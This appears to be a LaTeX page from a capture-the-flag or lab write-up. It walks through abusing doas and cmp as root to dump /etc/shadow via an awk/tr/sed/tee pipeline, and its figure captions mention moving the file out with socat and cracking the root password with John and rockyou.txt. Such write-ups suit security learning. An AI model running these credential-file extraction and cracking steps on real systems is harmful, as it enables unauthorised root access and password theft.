 \documentclass[12pt]{article}
\begin{document}
    \begin{enumerate}
        \item \verb!doas cmp -bl zero.dd /etc/shadow!\newline
            We compare, as \textbf{root}, our crafted file with our target one.
        \item \verb!awk '{print $NF}'!\newline
            We filter the last column, which contains the \textbf{ASCII} value
            of our target file.
        \item \verb!tr -d '\n'!\newline
            We remove the \textit{newline} characters. Otherwise, we would end
            up with one character by line.
        \item \verb!sed 's/\^J/\n/g'!\newline
            We substitute the \verb!^J! character with a \textit{newline}, as
            it's what it actually represents.
        \item \verb!tee shadow!\newline
            We save the output in a file named \texttt{shadow} at the same time
            the output is shown on the screen.
    \end{enumerate}

    Let's try to see if the \textbf{root} password is within
    \texttt{rockyou.txt}. But first, we should transfer the file:

    \begin{figure}[H]\label{pic:69-socat-transfer}
        \centering
        \includegraphics[width=0.80\textwidth]{69-socat-transfer.png}
        \caption{File transfer with \texttt{socat}}
    \end{figure}

    \begin{figure}[H]\label{pic:70-john-shadow}
        \centering
        \includegraphics[width=1.00\textwidth]{70-john-shadow.png}
        \caption{Cracking \textbf{root} password from \texttt{shadow}}
    \end{figure}
\end{document}
